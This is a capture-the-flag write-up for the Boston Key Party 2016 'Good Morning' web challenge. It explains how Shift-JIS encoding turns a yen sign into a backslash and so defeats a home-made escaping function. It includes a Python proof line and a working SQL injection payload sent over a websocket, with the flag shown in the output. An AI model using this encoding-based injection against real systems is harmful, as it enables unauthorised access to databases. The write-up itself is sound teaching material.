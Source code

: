 ## Good Morning (web, 3 points, 110 solves)
	http://52.86.232.163:32800/  https://s3.amazonaws.com/bostonkeyparty/2016/bffb53340f566aef7c4169d6b74bbe01be56ad18.tgz

In this task we were given a source of web survey. It used MySQL in backend to store our answers. The script
was not using prepared statements, so we quickly came to conclusion that there has to be a SQL injection possible.
Unfortunately, our input was escaped before passing to MySQL library. However, they use their home-made escaping function
instead of properly tested official ones. 

Because the site was in Japanese, they used Shift-JIS character encoding. One of the oddities conencted to this encoding
is that it changes position of backslash - 0x5C, which is ASCII backslash, in SJIS means yen. The websocket and Python script
itself (including escaping function) use Unicode, so we can send `[yen]" stuff`, which will be converted by escaping function
to `[yen]\" stuff`, and then converted to SJIS `0x5C\" stuff`. Since 0x5C is equivalent to backslash, that means our input will
be interpreted as one escaped backslash, followed by unescaped quote, enabling us to put arbitrary SQL code there.

Proof:
```
>>> print mysql_escape(json.loads('{"type":"get_answer","question":"q","answer":"\u00a5\\\""}')["answer"]).encode("sjis")
\\"
```
Exploiting via Chrome developer console:
```
socket.onmessage=function(e){console.log(e.data);};
socket.send('{"type":"get_answer","question":"q","answer":"\u00a5\\\" OR 1=1 -- "}')

VM416:2 {"type": "got_answer", "row": [1, "flag", "BKPCTF{TryYourBestOnTheOthersToo}"]}
```

